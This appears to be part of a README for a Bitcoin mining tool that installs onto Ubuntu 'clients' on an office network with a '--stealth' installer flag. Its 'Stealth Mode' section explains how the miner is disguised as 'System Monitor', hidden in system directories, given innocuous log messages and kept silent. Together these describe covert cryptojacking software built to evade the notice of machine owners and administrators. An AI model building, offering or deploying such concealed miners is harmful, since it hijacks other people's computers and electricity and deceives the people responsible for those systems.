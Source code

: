 ### Ubuntu Clients
```bash
# Download and run installer
chmod +x ubuntu-installer.sh
./ubuntu-installer.sh --server YOUR_FEDORA_IP --stealth
```

### Web-Based Installation
- Access: `http://localhost:3000/installer`
- Follow browser-based installation guide

## 📊 API Endpoints

### Core Endpoints
- `GET /api/stats` - Mining statistics
- `GET /api/security/status` - Security status
- `POST /api/wallet/configure` - Configure wallet
- `GET /api/office-network` - Client status

### Security Endpoints
- `GET /api/security/status` - Security dashboard
- `POST /api/security/block-ip` - Block IP address
- `POST /api/security/unblock-ip` - Unblock IP address

## 🔒 Security Features

### Authentication & Authorization
- JWT token authentication
- Password strength validation
- Rate limiting and session management
- Multi-factor authentication support

### Wallet Security
- Address validation and encryption
- Change tracking and limits
- Whitelist support
- Integrity verification

### Network Security
- DDoS protection
- IP filtering and blocking
- Connection limits
- Geo-blocking support

## 🥷 Stealth Mode

### What Gets Disguised
- **Process Name**: "System Monitor" instead of "Bitcoin Miner"
- **Window Title**: "System Performance Monitor"
- **Installation Folder**: Hidden in system directories
- **Log Messages**: Innocuous system messages
- **Notifications**: Disabled or disguised
